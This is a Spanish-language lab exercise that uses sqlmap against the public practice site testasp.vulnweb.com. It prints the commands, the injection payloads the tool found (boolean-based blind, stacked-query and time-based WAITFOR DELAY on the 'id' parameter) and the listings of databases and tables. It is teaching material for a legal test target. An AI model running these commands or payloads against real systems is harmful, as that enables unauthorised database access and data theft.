 #### Ejercicio:
Analizar el dominio http://testasp.vulnweb.com/ con el objetivo de detectar una vulnerabilidad del tipo `SQL injection`.

```bash
sqlmap -u http://testasp.vulnweb.com/showthread.asp?id=1

# Output
[11:03:28] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 108 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3934=3934

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: id=1;WAITFOR DELAY '0:0:5'--

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: id=1 WAITFOR DELAY '0:0:5'
---
```

Pasos:
- Obtener bases de datos.
    ```bash
    sqlmap -u http://testasp.vulnweb.com/showthread.asp?id=1 --dbs

    # Output
    [11:05:47] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
    available databases [6]:
    [*] [master]
    [*] acuforum
    [*] acuservice
    [*] model
    [*] msdb
    [*] tempdb
    ```

- Obtener tablas de una base de datos
    ```bash	
    sqlmap -u http://testasp.vulnweb.com/showthread.asp?id=1 -D <base_datos> --tables

    sqlmap -u http://testasp.vulnweb.com/showthread.asp?id=1 -D acuforum --tables

    # Output
    [11:07:02] [INFO] retrieved: dbo.users
    Database: acuforum
    [4 tables]
    +---------+
    | forums  |
    | posts   |
    | threads |
    | users   |
    +---------+